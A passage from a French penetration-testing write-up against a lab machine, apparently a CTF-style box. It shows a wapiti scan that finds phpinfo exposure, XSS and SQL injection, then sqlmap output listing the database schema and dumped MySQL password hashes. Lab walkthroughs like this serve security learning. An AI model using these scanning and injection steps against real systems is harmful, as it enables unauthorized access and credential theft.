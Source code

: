 ```console
$ ./bin/wapiti http://10.10.10.100/ -m "all,nikto,backup,htaccess"
```

Plusieurs trouvailles :  

* présence d'un `phpinfo` à l'adresse http://10.10.10.100/info.php
* faille XSS dans `register.php` via différents paramètres
* Faille SQL dans `login.php` via le champ email qui sert de username

À l'ouest rien de nouveau
-------------------------

Quand on reproduit l'attaque SQl le script PHP nous renvoie des erreurs super-parlantes avec la requête SQL au complet :  

```
SELECT * FROM users WHERE email='"'' AND pass='4a8a9fc31dc15a4b87bb145b05db3ae0bf2333e4' AND active IS NULL
```

On lance *SQLmap* qui voit la faille, mais bloque quand on lui demande des actions particulières (comme *--current-user*) :  

```
[21:48:19] [WARNING] the back-end DBMS is not MySQL
[21:48:19] [CRITICAL] sqlmap was not able to fingerprint the back-end database management system.
```

Etant donné que j'ai spécifié `--dbms=mysql` c'est visiblement un bug dans *sqlmap*. Une mise à jour plus tard ça fonctionne :  

```
current user:    'root@localhost'
```

Avec l'option `--schema` on obtient les différentes bases de données et la structure des tables :  

```
Database: ch16
Table: users
[8 columns]
+-------------------+---------------------+
| Column            | Type                |
+-------------------+---------------------+
| active            | char(32)            |
| email             | varchar(80)         |
| first_name        | varchar(20)         |
| last_name         | varchar(40)         |
| pass              | char(40)            |
| registration_date | datetime            |
| user_id           | int(10) unsigned    |
| user_level        | tinyint(1) unsigned |
+-------------------+---------------------+
```

Les hashs des utilisateurs MySQL (tables users via l'utilisation de *--passwords*) :  

```
[21:59:14] [INFO] retrieved: "root","*248E4800AB95A1E412A83374AD8366B0C0780FFF"
[21:59:14] [INFO] retrieved: "root","*248E4800AB95A1E412A83374AD8366B0C0780FFF"
[21:59:14] [INFO] retrieved: "root","*248E4800AB95A1E412A83374AD8366B0C0780FFF"
[21:59:14] [INFO] retrieved: "debian-sys-maint","*9366FE2112E650C8E5523AE337B10A625C727943"
```
